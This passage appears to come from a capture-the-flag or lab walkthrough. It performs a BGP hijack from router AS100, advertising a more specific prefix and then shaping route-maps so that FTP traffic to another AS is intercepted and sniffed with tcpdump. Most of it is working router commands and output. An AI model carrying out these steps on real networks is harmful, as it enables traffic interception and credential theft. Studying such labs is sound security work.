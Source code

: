 We rename _/opt/restore.sh_ so that it does not reset our configurations and can start a **BGP Hijack** by advertising our own route:
```markdown
r1# configure t

r1(config)# router bgp 100

r1(config-router)# network 10.120.15.0/25

r1# clear ip bgp * out
```

Sniffing the traffic with `tcpdump` for FTP packets:
```markdown
tcpdump -i any -w ftp-1.pcap port 21
```

After sniffing for a little while, the PCAP file can be downloaded to our local client for analysis with **Wireshark**.
It shows the captured packets, but the TCP handshake never completes.

This happens because the route from _AS200_ sends the packets to us _(AS100)_ and forwards them from there to _AS300_ where the FTP server is.
```markdown
r1# show ip bgp neighbors 10.78.11.2 advertised-routes

Network           Next Hop
10.120.15.0/25    10.78.11.1
```

So the advertising route to _AS300_ (10.78.10.0/24) has to be blocked:
```markdown
r1# conf t

r1(config)# ip prefix-list Hijack permit 10.120.15.0/25
r1(config)# route-map to-as300 deny 5

r1(config-route-map)# match ip address prefix-list Hijack

r1# clear ip bgp * out
```

The new configurations is successfully deployed:
```markdown
r1# show running-config

(...)
ip prefix-list Hijack seq 5 permit 10.120.15.0/25
!
route-map to-as300 deny 5
 match ip address prefix-list Hijack
(...)
```

Now configuring the route to _AS200_ that when a packet reaches it, it shall not advertise the packet to anyone:
```markdown
r1# conf t

r1(config)# route-map to-as200 permit 5

r1(config-route-map)# match ip address prefix-list Hijack
r1(config-route-map)# set community no-export
r1(config-route-map)# end

r1# clear ip bgp * out
```
